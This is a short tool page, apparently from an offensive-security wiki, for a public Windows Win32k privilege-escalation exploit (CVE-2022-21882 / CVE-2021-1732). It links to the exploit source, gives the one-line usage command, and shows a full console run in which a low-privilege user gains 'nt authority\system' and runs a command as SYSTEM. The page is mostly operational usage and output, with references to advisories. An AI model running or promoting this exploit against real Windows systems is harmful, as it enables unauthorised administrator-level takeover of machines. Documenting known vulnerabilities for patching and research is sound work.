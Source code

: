 icon:fontawesome/solid/unlock-keyhole

# CVE-2022-21882

CVE-2021-1732 / CVE-2022-21882 - The revive of CVE-2021-1732

Win32k Elevation of Privilege Vulnerability. The Win32k elevation of privilege vulnerability was fixed this month as part of the January 2022 Patch Tuesday, it is the result of a bypass for the previously CVE-2021-1732 flaw that allows anyone to gain admin privileges in Windows 10.

## Installation

Build your own .exe from [source](https://github.com/KaLendsi/CVE-2022-21882).

## Usage

```powershell
CVE-2021-1732.exe whoami
```

## Examples

```bash
Microsoft Windows [Version 10.0.17763.107]
(c) Microsoft Corporation. All rights reserved.

C:\Users\lowpriv> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
JohnDo
The command completed successfully.

C:\Users\lowpriv> whoami
desktop-qiv0pbc\lowpriv

C:\temp>CVE-2021-1732.exe whoami
CreateWnd
Hwnd:000b014a   qwfirstEntryDesktop=000001966C345110
BaseAddress:000001966C345000   RegionSize=:000000000001A000
Hwnd:00050406   qwfirstEntryDesktop=000001966C3431C0
BaseAddress:000001966C343000   RegionSize=:000000000001C000
Hwnd:000903b2   qwfirstEntryDesktop=000001966C342A20
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:000300d8   qwfirstEntryDesktop=000001966C342B70
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:0013016c   qwfirstEntryDesktop=000001966C341B90
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:00050414   qwfirstEntryDesktop=000001966C341CE0
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:0005017c   qwfirstEntryDesktop=000001966C341E30
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:000502da   qwfirstEntryDesktop=000001966C356830
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:00020384   qwfirstEntryDesktop=000001966C356980
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:000203ac   qwfirstEntryDesktop=000001966C356AD0
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Min BaseAddress:000001966C341000   RegionSize=:000000000001E000
realMagicHwnd=00000000000303AC
Free ExtraBytes:000000000000124D
set ExtraData == 00000000000431C0
Free ExtraBytes:000000000000124D
dwRet=000000000000FA90
tagWndMin_offset_0x128=000000000000FA90
g_qwvuln=FFFFB73700826960
qwFrist read=FFFFB73700831E70
qwSecond read=FFFFC98914160810
qwSecond read=FFFFB73701A00000
qwFourth read=FFFFB737017F8010
qwFifth read=FFFFC989207F2080
qwSixth read=FFFFC98921421300
[*] Trying to execute whoami as SYSTEM
[+] ProcessCreated with pid 11296!
===============================
nt authority\system
```

## References

- [Github.com - CVE-2022-21882](https://github.com/KaLendsi/CVE-2022-21882)
- [Nvd.nist.gov - CVE-2021-1732](https://nvd.nist.gov/vuln/detail/CVE-2021-1732)
- [Securityaffairs.co - Expert releases PoC for CVE-2022-21882 Windows local privilege elevation issue](https://securityaffairs.co/wordpress/127377/hacking/cve-2022-21882-win-local-privilege-elevation.html)
- [Twitter.com - @kalendsi](https://twitter.com/kalendsi/status/1483770845138804738)
- [Twitter.com - @0x6d69636b](https://twitter.com/0x6d69636b/status/1486960626220118017?s=11)
- [Nvd.nist.gov - CVE-2022-21882](https://nvd.nist.gov/vuln/detail/CVE-2022-21882)
- [Portal.msrc.microsoft.com - Win32k Elevation of Privilege Vulnerability](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2022-21882)
